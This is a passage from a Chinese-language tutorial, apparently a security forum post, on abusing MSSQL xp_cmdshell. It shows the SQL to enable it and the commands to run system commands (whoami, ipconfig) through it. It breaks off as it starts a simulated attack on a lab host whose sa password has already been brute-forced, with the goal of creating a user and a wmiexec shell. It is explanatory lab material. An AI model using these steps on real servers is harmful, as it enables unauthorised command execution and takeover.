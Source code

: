 也可以手动查看，右键数据库，打开`Facets`

![2s4SW6.png](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-13c315ebccc1da788eb8cd7bb1d78230f70c34dd.png)

在方面中选择`外围应用配置器`，在方面属性中查看`XPCmdShellEnabled`属性为`True`

![2s49SK.png](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-27c16ac45a82b758ec7b8f8c4521aff51ff0bc04.png)

##### Ⅱ 开启xp\_cmdshell组件

```sql
EXEC sp_configure 'show advanced options', 1
RECONFIGURE
EXEC sp_configure 'xp_cmdshell',1
RECONFIGURE
```

![2s4PyD.png](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-07a9fb9804aeb669fcbcd2ec6fb8da316cf31687.png)

同样，关闭该组件的命令为

```sql
EXEC sp_configure 'show advanced options', 1
RECONFIGURE
EXEC sp_configure 'xp_cmdshell',0
RECONFIGURE
```

##### Ⅲ 利用xp\_cmdshell执行命令

- **执行系统命令**

以下几条命令格式都可以用于执行系统命令

```sql
exec xp_cmdshell "whoami"
master..xp_cmdshell 'whoami'    (2008版上好像用不了)
EXEC master..xp_cmdshell "whoami"
EXEC master.dbo.xp_cmdshell "ipconfig"
```

![2shzJx.png](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-a863aeef35019ceddf5998fc3538635b72725874.png)

> 注意点：  
> 在MSSQL2019版本中，会使用mssqlserver用户而非system用户

#### 3）模拟实战：远程命令执行创建用户

这里通过演示远程命令执行来模拟实战情况，远程MSSQL数据库版本为2008版  
环境信息：

```php
远程MSSQL数据库的IP：192.168.112.166
```

假设已经爆破得到了sa密码

##### 创建用户联合wmiexec拿到shell
